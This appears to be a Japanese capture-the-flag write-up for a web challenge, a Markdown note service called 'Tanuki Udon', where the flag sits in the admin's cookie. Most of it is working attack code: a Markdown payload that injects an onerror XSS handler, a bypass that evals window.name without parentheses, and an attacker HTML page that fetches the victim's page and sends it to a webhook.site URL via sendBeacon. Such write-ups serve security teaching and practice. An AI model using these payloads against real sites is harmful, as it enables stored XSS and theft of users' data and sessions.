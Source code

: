 # Tanuki Udon
Markdown形式でノートを記述して保存できるサービス。フラグは管理者のCookieに保存されている。

MarkdownからHTMLへの変換処理でXSSが発生する。
具体的には、次のノートを記述して保存する。
```md
![[hoge](fuga)]( src=x onerror=alert``//)
```
HTML形式に変換処理がされるページへアクセスすると、次のようにHTMLへ変換され、``` alert`` ```が実行される。
```html
<img alt="<a href=" src=x onerror=alert``//">hoge" src="fuga"></img></a>
```

このように、onerror属性に指定したJavaScriptのコードを実行することができるが、`)`を含むとMarkdown側でリンクのURLの終端として認識される。

よって、`)` を使わずに次のようにして `window.name` をevalするようなノートを作成する。

```md
![[hoge](fuga)]( src=x onerror=[].filter.constructor`/*${window.name}*/```//)
```

最後に管理者側に下記のように `window.name` を設定した後、上記のページを読み込ませるとフラグが書かれたページのURLを取得できる。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <script>
    window.name = `
    fetch('/').then(r => r.text()).then(t => navigator.sendBeacon('https://webhook.site/e4adfd3b-8a9c-439f-b930-dd229a6d43a8', t));
    `;
    // window.location.href = 'http://localhost:3000/note/09f12f3518d2d384';
    window.location.href = 'http://web:3000/note/0168d445bb38df4c';
  </script>
</body>
</html>
```